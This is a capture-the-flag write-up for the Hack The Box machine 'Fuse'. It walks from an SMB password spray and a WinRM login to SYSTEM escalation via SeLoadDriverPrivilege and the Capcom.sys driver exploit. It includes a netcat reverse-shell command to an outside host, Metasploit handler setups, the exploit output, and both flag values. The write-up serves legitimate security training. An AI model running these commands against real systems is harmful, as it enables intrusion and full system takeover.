[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dandrews:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\mberbatov:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\astein:$fab@s3Rv1ce$1',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:Fabricorp01',
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\dmuir:$fab@s3Rv1ce$1',
[*] 10.10.10.193:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Next I ran a brute force login attack against SMB after adding the new usernames and passwords to my lists.

Hmm so both svc-print and svc-scan use the same password. Hopefully one of them will allow me to get a shell.

### Initial Foothold

### Road to User

#### Further enumeration

#### Finding user creds

I tried using the winrm enumeration module in metasploit, but it returned no valid logins. After playing around with different things for awhile, the colored text in ZSH saved me. I noticed that the `$` in the password were being interpreted by the terminal. Once I wrapped the password in single quotes I was able to login using evil-winrm.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193 -P 5985                             

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> ls
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FABRICORP\IT_Accounts                      Group            S-1-5-21-2633719317-1471316042-3957863514-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\svc-print\Documents> systeminfo
Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1
+ systeminfo
+ ~~~~~~~~~~.
At line:1 char:1
+ systeminfo
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

SeLoadDriverPrivilege sounded like a very interesting privilege to have...

#### User.txt

```text
*Evil-WinRM* PS C:\users> tree /F C:\Users
Folder PATH listing
Volume serial number is E6C8-44FE
C:\USERS
ÃÄÄÄAdministrator
ÃÄÄÄPublic
ÃÄÄÄsthompson
ÀÄÄÄsvc-print
    ÃÄÄÄDesktop
    ³       user.txt
    ³
    ÃÄÄÄDocuments
    ÃÄÄÄDownloads
    ÃÄÄÄFavorites
    ÃÄÄÄLinks
    ÃÄÄÄMusic
    ÃÄÄÄPictures
    ÃÄÄÄSaved Games
    ÀÄÄÄVideos
*Evil-WinRM* PS C:\users> cd svc-print/Desktop
*Evil-WinRM* PS C:\users\svc-print\Desktop> ls


    Directory: C:\users\svc-print\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/25/2020   1:23 PM             34 user.txt


*Evil-WinRM* PS C:\users\svc-print\Desktop> type user.txt
cea534708fb5e5dc92920ad8473e6553
```

`tree` gave some odd looking output, but showed me that the `user.txt` proof was right there in my service account user's Desktop! \(Why a service account has a Desktop I am not sure...\)

### Path to Power \(Gaining Administrator Access\)

#### Enumeration as User `svc-print`

```text
*Evil-WinRM* PS C:\users\svc-print\Desktop> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     39       3     1524       2568              3576   1 cmd
     93       8     4964       9488       0.02   1220   0 conhost
    109       9     5348      11228              1616   1 conhost
    301      13     1996       4356               404   0 csrss
    157      14     2124       8084               496   1 csrss
    356      31    14976      22536              1744   0 dfsrs
    157      12     2060       7176              2212   0 dfssvc
    217      13     3776      12720              2892   0 dllhost
  10328   12415   248472     239048              1200   0 dns
      0       0        0          4                 0   0 Idle
    120      12     1684       5392              1148   0 ismserv
   2022     414    58308      71184               632   0 lsass
    430      39    51792      64804              1840   0 Microsoft.ActiveDirectory.WebServices
    194      13     2944       9672              3064   0 msdtc
    385      58   118384      84496              2164   0 MsMpEng
    129       8     1756       5884              1128   0 pcpl
    157      12     3388      11404              3972   0 PrintIsolationHost
    312      11     4916      10176               624   0 services
     51       2      364       1212               304   0 smss
    469      24     5652      17296              1580   0 spoolsv
   1257      64    23508      42260               288   0 svchost
    618      44     9032      21744               344   0 svchost
    366      14     3264      10104               824   0 svchost
    449      19     3232       8956               880   0 svchost
    711      24     6536      14928               964   0 svchost
    385      16     8560      13968               976   0 svchost
    388      32     8936      15960              1028   0 svchost
    136      11     3820      10488              1140   0 svchost
    305      17     5552      14736              1168   0 svchost
    206      14     4484      11352              1364   0 svchost
    136       9     1708       6864              1512   0 svchost
     88       7     1084       5124              1772   0 svchost
    247      15     2756      10916              1872   0 svchost
     85       7     1056       5084              2040   0 svchost
    240      19     8256      12748              2140   0 svchost
    102       7     2320       8244              3076   0 svchost
    798       0      128        144                 4   0 System
    163      12     1788       9172              3140   1 taskhostw
    195      16     2404      10764              2616   0 vds
    150      11     3036       9860              2108   0 VGAuthService
    330      21     9116      22348               332   0 vmtoolsd
    175      15     3356      12920               516   1 vmtoolsd
    198      71     5812      13780              3856   0 w3wp
     96       8      924       4876               488   0 wininit
    189      10     1952       9392               572   1 winlogon
    293      15     7516      16784              2992   0 WmiPrvSE
   1346      29    56524      76172       0.88   2568   0 wsmprovhost
```

I checked running processes and didn't see anything too exciting.

```text
*Evil-WinRM* PS C:\users\svc-print\Desktop> services

Path                                                                              Privileges Service                     
----                                                                              ---------- -------                     
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                              False ADWS                        
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                           True NetTcpPortSharing           
C:\inetpub\wwwroot\papercut\pcpl.exe PCPrintLogger                                     False PCPrintLogger               
C:\Windows\SysWow64\perfhost.exe                                                       False PerfHost                    
C:\Windows\servicing\TrustedInstaller.exe                                              False TrustedInstaller            
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                 False VGAuthService               
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                    False VMTools                     
"C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\CommAmqpListener.exe"         False VMwareCAFCommAmqpListener   
"C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe"      False VMwareCAFManagementAgentHost
"C:\Program Files\Windows Defender\NisSrv.exe"                                          True WdNisSvc                    
"C:\Program Files\Windows Defender\MsMpEng.exe"                                         True WinDefend
```

Same with running services. I decided that since the service accound had the `SeLoadDriverPrivilege` privilege I would see if there were any published privilege excalation methods using it. I quickly found one at [https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

```text
┌──(zweilos㉿kalimaa)-[~/htb/fuse]
└─$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193 -P 5985                             1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload print.exe
Info: Uploading print.exe to C:\Users\svc-print\Documents\print.exe


Data: 98400 bytes of 98400 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-print\Documents> ./print.exe
*Evil-WinRM* PS C:\Users\svc-print\Documents> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     39       3     1524       2568              3576   1 cmd
    109       9     5380      11244              1616   1 conhost
    302      13     1996       4360               404   0 csrss
    157      14     2124       8088               496   1 csrss
    355      32    15336      23120              1744   0 dfsrs
    161      12     2204       7236              2212   0 dfssvc
    217      13     3776      12720              2892   0 dllhost
  10330   12415   249204     239480              1200   0 dns
      0       0        0          4                 0   0 Idle
    124      12     1684       5448              1148   0 ismserv
   1986     415    53628      67776               632   0 lsass
    425      39    52808      65676              1840   0 Microsoft.ActiveDirectory.WebServices
    194      13     2944       9672              3064   0 msdtc
    385      58   118384      84492              2164   0 MsMpEng
    128       8     1752       5884              1128   0 pcpl
    141       6   939484     940424       0.39   3524   0 print
    157      12     3388      11404              3972   0 PrintIsolationHost
    314      11     5044      10464               624   0 services
     51       2      364       1212               304   0 smss
    486      27     6132      19052              1580   0 spoolsv
   1253      54    23716      42580               288   0 svchost
    633      45     9012      22004               344   0 svchost
    365      14     3268      10156               824   0 svchost
    446      19     3416       9104               880   0 svchost
    714      24     6660      15028               964   0 svchost
    383      16    10416      15316               976   0 svchost
    386      32     9332      16052              1028   0 svchost
    136      11     3772      10476              1140   0 svchost
    267      16     5804      15232              1168   0 svchost
    204      14     4428      11356              1364   0 svchost
    136       9     1652       6852              1512   0 svchost
     88       7     1028       5108              1772   0 svchost
    241      15     2808      10932              1872   0 svchost
     85       7     1000       5072              2040   0 svchost
    261      19     9272      14828              2140   0 svchost
    102       7     2320       8240              3076   0 svchost
    781       0      128        144                 4   0 System
    163      12     1788       9168              3140   1 taskhostw
    195      16     2404      10764              2616   0 vds
    150      11     3036       9860              2108   0 VGAuthService
    330      21     9504      22924               332   0 vmtoolsd
    173      15     3384      12940               516   1 vmtoolsd
    194      19     5084      13352              3968   0 w3wp
     96       8      924       4876               488   0 wininit
    189      10     1952       9392               572   1 winlogon
    294      15     8788      17968              2992   0 WmiPrvSE
    663      26    52092      66048       0.47   4000   0 wsmprovhost


*Evil-WinRM* PS C:\Users\svc-print\Documents> stop-process -name print
```

```text
msf5 exploit(windows/local/capcom_sys_exec) > options

Module options (exploit/windows/local/capcom_sys_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  4                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     43242            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64 (<= 10)

msf5 exploit(windows/local/capcom_sys_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/capcom_sys_exec) > exploit

[*] Started reverse TCP handler on 10.10.15.74:43242 
[-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
[*] Exploit completed, but no session was created.
```

So much for trying to use metasploit for eveything on this machine!

```text
meterpreter > sysinfo
Computer        : FUSE
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : FABRICORP
Logged On Users : 5
Meterpreter     : x64/windows
```

Windows x64

#### Getting a shell

Searched more for how to exploit the SeLoadDriverPrivilege

[https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

have to compile the two files on Windows \(matching x64 architecture\), customise it a bit to have it call my .bat script

```text
C:\Windows\Temp\nc.exe 10.10.15.74 55541 -e cmd.exe
```

then the two compiled files

```text
*Evil-WinRM* PS C:\temp> ./EOPLOADDRIVER.exe System\CurrentControlSet\printer C:\test\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\printer
NTSTATUS: c000010e, WinError: 0

*Evil-WinRM* PS C:\test> ./ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000020616710008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

#### Root.txt

```text
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.74      yes       The listen address (an interface may be specified)
   LPORT     55541            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.15.74:55541 
[*] Command shell session 5 opened (10.10.15.74:55541 -> 10.10.10.193:64733) at 2020-09-26 17:26:09 -0400

C:\temp>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeCreateTokenPrivilege                    Create a token object                                              Disabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Disabled
SeRelabelPrivilege                        Modify an object label                                             Disabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.

C:\temp>cd c:\Users\Administrator\Desktop                        
cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E6C8-44FE

 Directory of c:\Users\Administrator\Desktop

06/01/2020  02:03 AM    <DIR>          .
06/01/2020  02:03 AM    <DIR>          ..
09/25/2020  01:23 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  29,305,589,760 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
995555f7516045d9982eafbe2b0d6944
```

Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

